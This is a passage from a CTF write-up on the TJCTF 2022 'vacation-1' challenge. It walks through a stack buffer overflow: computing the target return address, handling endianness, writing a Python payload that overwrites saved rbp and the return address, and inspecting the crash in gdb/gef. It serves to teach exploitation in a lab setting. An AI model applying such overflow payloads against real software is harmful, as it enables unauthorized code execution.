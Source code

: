 **Note** I did not end up using the address `0x401196`, but rather two instructions afterwards, `0x40119b` so use that value for the rest of the post below.

Great! So we need to put the value `0x401196` where `"89ABCDEF"` used to be.
Note that the addresses on x86_64 are 8 bytes wide, do the value should be: `0x0000000000401196` (and in bytes: `\x00\x00\x00\x00\x00\x40\x11\x96`).

Also note that we need to consider the endianess (byte ordering) of the processor. Depending on the architecture, a value such as `0x1234` may be represented in memory as `\x00\x00\x12\x34` or `\x34\x12\x00\x00`.

Now, the data we need to input to the program looks something like this:

```bash
01234567890abcdef01234567\x00\x00\x00\x00\x00\x40\x11\x96 # if big endian
01234567890abcdef01234567\x96\x11\x40\x00\x00\x00\x00\x00 # if little endian
```

This is a bit tricky, since the last 8 bytes are not ascii, and we can't type stuff in with our keyboard that correspond to those bytes. I like to use Python to help me out here.

### Using STDIN redirection
First method that I use is to generate and then save the payload to a file. Then I can run the program with its STDIN (where the program reads for the input) redirected to a file.

Generating the payload can be done simply with Python:

```python
payload = b'x' * 16 # fill buffer
payload += b'a' * 8 # overwrite saved rbp
payload += b'\x00\x00\x00\x00\x00\x40\x11\x9b' # our target return address
with open('payload.txt', 'wb') as f:
  f.write(payload)
```

When we run the program with our new payload, we still see a segfault:

```bash
$ ./chall < payload.txt
Where am I going today?
[1]    2792848 segmentation fault (core dumped)  ./chall < payload.txt
$
```

Let's run it with gdb and see what happened:

```bash
$ gdb ./chall
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
...
gef➤  r < payload.txt
Starting program: /home/brian/Projects/ext/CTFs/2022/TJCTF/pwn/vacation-1/chall < payload.txt
Where am I going today?

Program received signal SIGSEGV, Segmentation fault.
0x00000000004011df in vacation ()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffd728│+0x0000: 0x9b11400000000000     ← $rsp
0x007fffffffd730│+0x0008: 0x0000000000000000
0x007fffffffd738│+0x0010: 0x007ffff7da5083  →  <__libc_start_main+243> mov edi, eax
0x007fffffffd740│+0x0018: 0x00000000000071 ("q"?)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011d8 <vacation+43>    call   0x4010a0 <fgets@plt>
     0x4011dd <vacation+48>    nop    
     0x4011de <vacation+49>    leave  
 →   0x4011df <vacation+50>    ret    
[!] Cannot disassemble from $PC
```

[img-prompt]: /assets/img/tjctf2022/vacation-1/0-prompt.png
[chall]: /assets/data/tjctf2022/vacation-1/chall
[chall-src]: /assets/data/tjctf2022/vacation-1/chall.c
[file-dockerfile]: /assets/data/tjctf2022/vacation-1/Dockerfile
[binary-warning]: /tjctf2022/rev/take-a-l.html#file-type-identification
[gef]: https://github.com/hugsy/gef
[gdb-examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[struct-pack-docs]: https://docs.python.org/3/library/struct.html#format-strings
[man-cat]: https://man7.org/linux/man-pages/man1/cat.1.html
[pwntools]: https://docs.pwntools.com/en/stable/